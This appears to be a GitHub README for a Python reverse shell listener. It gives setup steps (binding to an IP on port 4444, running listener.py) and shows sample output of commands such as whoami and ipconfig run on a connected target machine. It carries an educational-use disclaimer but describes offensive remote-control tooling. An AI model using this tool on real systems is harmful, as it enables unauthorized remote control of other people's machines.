 # Reverse Shell To Run Commands

This script sets up a basic reverse shell listener in Python. It's meant for educational and research purposes only — use responsibly.

## What it Does

* Listens for incoming connections from a reverse shell client
* Sends commands from the listener (your system) to the connected target
* Receives and displays the output of those commands from the target
* Gracefully handles connection and communication errors

---

## How to Use

1. **Set up your listener machine:**

   Make sure you're on the same network (e.g., 192.168.x.x) as the target or you have proper port forwarding for external connections.

2. **Edit the IP address:**

   In the `server()` function, change:

   ```python
   s.bind(("192.168.0.1", 4444))
   ```

   Replace `"192.168.0.1"` with your listener machine’s local IP address.

3. **Run the script:**

   ```bash
   python listener.py
   ```

   It’ll start listening for incoming connections on port 4444.

4. **Connect from the client:**

   The target (reverse shell client) should connect back to your IP and port.

5. **Send commands:**

   Once the connection is established, you can type commands and get their output from the target machine.

   Type `q` to quit the shell.

---

## Example Output

```
Listening to incoming connections...
Connection established with: ('192.168.0.8', 51234)
Command: whoami
target_user
Command: ipconfig
Windows IP Configuration ...
Command: q
```

---

